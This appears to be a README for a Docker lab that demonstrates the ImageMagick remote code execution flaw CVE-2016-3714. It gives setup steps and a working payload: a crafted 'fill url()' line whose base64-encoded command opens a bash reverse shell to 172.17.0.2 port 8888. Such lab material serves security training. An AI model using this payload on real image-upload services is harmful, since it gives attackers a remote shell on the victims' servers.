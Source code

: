 # CVE-2016-3714 ImageMagick Remote Code Execution
# PoC uses Docker 
# How to use
*docker pull hoangkien1020/cve20163714:hk*

*docker run -d --rm -it -p 8080:80 hoangkien1020/cve20163714:hk*

And access IP:8080/upload.php as:
![image](https://user-images.githubusercontent.com/24661746/77272354-97e58980-6ce3-11ea-87b5-ec6bb8756710.png)

Then,upload cve20163714.jpg.

Result:
![image](https://user-images.githubusercontent.com/24661746/77272482-ebf06e00-6ce3-11ea-913b-1b5bdfbd9def.png)

Payload RCE:

*fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4xNy4wLjIvODg4OCAwPiYx | base64 -d | bash`"||id " )'*

![image](https://user-images.githubusercontent.com/24661746/77272900-e21b3a80-6ce4-11ea-9e8b-682eecec50cc.png)
Reference

https://nvd.nist.gov/vuln/detail/CVE-2016-3714

https://github.com/vulhub/vulhub/tree/master/imagemagick/imagetragick
